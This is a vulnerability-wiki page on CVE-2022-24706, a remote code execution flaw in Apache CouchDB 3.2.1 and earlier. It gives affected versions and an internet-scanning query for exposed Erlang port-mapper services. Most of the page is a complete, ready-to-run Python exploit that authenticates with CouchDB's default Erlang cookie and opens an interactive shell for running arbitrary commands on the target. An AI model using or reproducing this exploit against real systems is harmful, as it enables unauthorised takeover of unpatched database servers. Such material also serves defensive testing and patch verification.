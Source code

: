 # Apache CouchDB epmd remote command execution vulnerability CVE-2022-24706

## Vulnerability Description

Apache CouchDB is an open source seamless multi-master synchronous database that uses an intuitive HTTP/JSON API and is designed for reliability.

On April 26, Apache issued a security announcement, revealing a remote code execution vulnerability in Apache CouchDB (CVE-2022-24706). 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CouchDB <= 3.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">port="4369" && "couchdb"</span>

## Vulnerability reappears

Main page, default port is 5984

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652581147618-09f861b4-509c-4eb9-847a-e65d5b8ec944.png)

Verification with POC

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652583160527-385ac7eb-1cbf-47d6-be07-ddbbd4d9fdb7.png)

## Verify POC

```java
# Exploit Title: Apache CouchDB 3.2.1 - Remote Code Execution (RCE)
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://couchdb.apache.org/
# Version: 3.2.1 and below
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name couchdb at"
# CVE: CVE-2022-24706
# References:
#  https://habr.com/ru/post/661195/
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = ""
EPMD_PORT = 4369 # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x07\x00\x03\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

while not TARGET:
    TARGET = input("Enter target host:\n> ")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)                    # Receive "ok" message
challenge = s.recv(1024)     # Receive "challenge" message
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data.decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data.decode(),end = '')
        data_size -= 1024
            
```